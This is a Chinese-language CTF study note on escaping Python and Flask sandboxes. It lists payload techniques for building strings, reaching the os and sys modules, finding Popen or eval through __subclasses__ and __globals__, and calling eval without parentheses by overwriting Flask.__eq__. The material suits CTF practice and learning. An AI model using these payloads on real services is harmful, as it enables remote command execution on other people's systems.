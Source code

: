 tags:: [[CTF/Python]]

- # 套路
	- 首先考虑构造任意字符串
	- 然后考虑拿到命令执行相关的函数
		- 考虑找到相关的模块，并从模块中拿到需要的函数
		- 也可以考虑找到`eval`函数
	- 最后把字符串传给函数即可
- # 构造至少一个字符串
	- 有时需要先通过某些方式找到一个字符串（比如说`sys.base_exec_prefix`或者`sys.version_info.releaselevel`）
	- 然后用这个字符串作为键名拿到某个GET/POST参数（比如说`request.args.get(sys.base_exec_prefix)`）
	- `sys.builtin_module_names`中有一堆字符串
	  id:: 652b6f8a-e0b1-47e3-9235-53bc76fd72ba
	- 拿到某个类的名字：`().__class__.__name__`
- # 构造任意字符串
	- 转义：`"\x61\x61"`和`"\u0061\u0061"`
	- f-string: `f"{chr(0x61)}"`
	- 如果是flask等HTTP环境
		- 考虑从GET/POST参数中，或者headers中拿取任意字符串
	- format: `"%d%d" % (100, 100)`
- # 根据一个模块找到任意模块
  id:: 652b6ef7-8828-476a-90e6-69e7521fdf1b
	- 首先找到sys模块
		- 通过datetime模块：`datetime.sys`
		- 通过其他任意模块：`flask.__spec__.loader.__init__.__globals__['sys']`
	- 然后通过sys模块找到其他模块
		- 比如说找到os模块：`sys.modules['os']`
- # 找到危险的类
	- 通过任意对象：`[].__class__.__base__.__subclasses__()`
		- 从里面把`subclasses.Popen`之类的危险类找出来就可以实现命令执行
	- 从模块中拿到危险的类：参考上面 ((652b6ef7-8828-476a-90e6-69e7521fdf1b))
- # 找到eval函数
	- 通过任意模块：`flask.__spec__.loader.__init__.__globals__['__builtins__']['eval']`
	- 通过任意对象：
		- 首先可以使用`().__class__.__base__.__subclasses__()`拿到目标上的所有类
		- 这里某些类中的`__init__`函数中有`__globals__`这个属性，我们可以从`__globals__`属性中拿到`eval`
		- 假设这些类中的某一个标号为`xxx`，我们就可以
			- 通过`().__class__.__base__.__subclasses__()[xxx]`拿到这个类
			- 通过`().__class__.__base__.__subclasses__()[xxx].__init__.__globals__`拿到globals，这是一个字典，其中`globals['__builtins__']['eval']`就是我们需要的eval函数
		- 记对应类为`().__class__.__base__.__subclasses__()[xxx]`，其中xxx为一个数字
		- 如果你不确定哪些类的init函数中有eval，可以使用下面的脚本（在你的机器上执行即可）
			- ```python
			  s = ().__class__.__base__.__subclasses__()
			  for i, t in enumerate(s):
			      try:
			          print(t, t.__init__.__globals__['__builtins__']['eval'])
			      except:
			          pass
			  ```
- # 实现函数调用
	- 有时候括号被禁用
	- 通过魔术方法实现函数调用
		- 比如说对Flask类动手脚
			- ```python
			  # 比如说题目中有一个app变量，其类型是Flask
			  from flask import Flask
			  app = Flask(__name__)
			  # 然后我们可以控制一个变量为任意字符串
			  name = "xxx" 
			  # 我们可以污染Flask.__eq__这个魔术方法
			  Flask.__eq__ = eval
			  # 然后调用Flask.__eq__
			  app == name # 这里的name就会被当成参数传给eval
			  ```
		- 用一些技巧将上面的代码压缩成一行
			- python中for可以用于赋值：`Flask.__eq__ = eval`等价于`{1 for Flask.__eq__ in {eval, }}`
			- python可以将多个表达式放在一个set中，表达式会依次执行
			- ```python
			  from flask import Flask
			  app = Flask(__name__)
			  name = "xxx"
			  # 下面这个鬼东西和上面的两行语句等价，直接eval就行
			  {{1 for Flask.__eq__ in {eval}}, {app == name}}
			  ```
		- finalize_request